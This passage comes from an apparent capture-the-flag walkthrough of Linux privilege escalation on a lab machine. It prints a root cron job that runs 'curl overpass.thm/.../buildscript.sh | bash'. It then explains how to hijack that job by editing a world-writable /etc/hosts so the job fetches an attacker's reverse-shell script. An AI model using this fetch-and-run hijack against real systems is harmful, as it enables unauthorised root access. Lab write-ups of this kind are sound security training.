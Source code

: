 and as a first step let's see if he have any sudo privileges on the target but he have none.

```
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.
```

So let's go to the second thing the cron job 

```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

and we will see that the cron job take the file called **buildscript.sh** and pipes it into bash and it runs with root privileges, so if we changed the overpass.thm ip to our ip and insert a reverse shell inside a script with the same name in the same directory we can get root privileges so let's start.

First we will check for the /etc/hosts file permissions and hope that it is writeable

```
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

and yes it is so edit the ip to your machine ip like that

![img-description](/assets/img/Overpass/ip.png)
_IP_
